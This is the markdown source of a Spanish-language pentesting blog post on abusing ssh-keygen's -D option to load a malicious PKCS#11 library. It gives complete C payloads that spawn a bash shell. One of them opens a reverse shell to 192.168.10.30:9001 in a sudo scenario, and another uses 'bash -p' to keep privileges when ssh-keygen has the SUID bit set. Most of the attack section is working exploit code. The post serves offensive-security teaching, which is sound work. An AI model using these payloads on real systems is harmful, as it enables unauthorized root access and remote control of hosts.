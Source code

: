 ```yaml
---
title: "Abusando de ssh-keygen"
summary: "SSH-Keygen es una herramienta que te permite crear y gestionar claves SSH, esta herramienta está presente en la mayoría de de sistemas UNIX actuales como herramienta para facilitar la gestión de claves SSH."
date: 2024-10-17
tag:
    - Ciberseguridad
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistencia
---
```

# Abusando de ssh-keygen

SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.

En este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.

En concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente.

```c
ssh-keygen -D ./lib.so
```

# Como generamos el payload

Una vez explicado que nos lleva a poder explotar esta función, vamos a explicar en mayor detalle como generar un payload cargable, para ello primero de todo será obtener una versión de pkcs11.h . En este archivo de cabeceras es donde se definen los tipos de datos necesarios para la función de nuestra librería que llamara ssh-keygen al usar el parámetro -D. 

En nuestro caso, para ello iremos al repositorio de Open Smart Card y descargaremos la versión que necesitamos de la siguiente url:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

Con este archivo procederemos a escribir un pequeño programa en C con la estructura necesaria para ser ejecutado por ssh-keygen, en nuestro caso este programa spwanea una shell en bash.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos cargarlo como librería como indicamos en la introducción. 

## Profit

## Caso 1: Sudo SSH-Keygen

Vamos a explotar un escenario donde nuestro usuario tiene permisos para ejecutar el comando ssh-keygen como root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

En este ese caso, en lugar de hacer uso de una simple llamada a bash vamos a cargar una reverse shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-c" , "bash -i >& /dev/tcp/192.168.10.30/9001 0>&1", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Como resultado, al cargarla obtendremos una conexión como root en nuestro listener, podríamos cambiarlo para ejecutar una shell sencillamente como en el ejemplo de la sección de teoría 

## Caso 2: SSH-Keygen SUID

En este escenario vamos a explotar un escenario algo menos común donde ssh-keygen tiene el bit del SUID activado, en este caso para mantener los privilegios del SUID tenemos que cambiar un poco el código de la librería para que la shell mantenga los privilegios

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-p", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos ejecutar el comando para cargar la librería y obtener una shell con los privilegios necesarios